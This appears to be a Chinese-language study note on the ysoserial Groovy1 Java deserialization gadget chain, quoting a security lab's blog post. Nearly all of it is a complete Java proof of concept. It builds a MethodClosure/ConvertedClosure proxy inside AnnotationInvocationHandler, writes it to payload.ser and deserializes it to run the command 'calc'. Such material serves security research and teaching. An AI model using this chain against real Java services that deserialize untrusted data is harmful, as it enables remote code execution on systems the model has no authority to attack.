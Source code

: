 ```yaml
---
description: ConvertedClosure+MethodClosure+ConvertedClosure
---
```


# Java反序列化之Groovy1

以下内容引自安全客「[天融信阿尔法实验室](https://www.anquanke.com/member/142730)」在其「[ysoserial Java 反序列化系列第一集 Groovy1](https://www.anquanke.com/post/id/202730)」的博文，具体内容已经是精简后的版本：

```java
import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.*;
import java.lang.reflect.*;
import java.util.Map;

public class Groovy1Test {
    public static String command = "calc";
    public static void main(String[] args)
            throws IllegalAccessException,
            InvocationTargetException,
            InstantiationException, IOException,
            ClassNotFoundException {

        //构造序列化对象
        //Groovy语法中"command".execute()
        MethodClosure methodClosure = new MethodClosure(command, "execute");
        final ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure,"entrySet");
        //创建动态代理参数，
        // 第一个为类的加载器，此处为类本身
        // 第二个为代理对象实现的接口，此处为map接口
        // 第三个为InvocationHandler，此处为ConversionHandler
        Class<?>[] allInterfaces = (Class<?>[]) Array.newInstance(Class.class,1);
        allInterfaces[0] = Map.class;

        //创建代理对象
        Object o = Proxy.newProxyInstance(Groovy1Test.class.getClassLoader(),allInterfaces,convertedClosure);
        final Map map = Map.class.cast(o);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        final Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        final InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class,map);

        //将恶意对象存储为字节码
        FileOutputStream fos = new FileOutputStream("payload.ser");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(handler);
        oos.flush();
        oos.close();
        //读取恶意对象字节码并进行反序列化操作
        FileInputStream fis = new FileInputStream("payload.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object evilObject = ois.readObject();
        ois.close();

    }
}
```
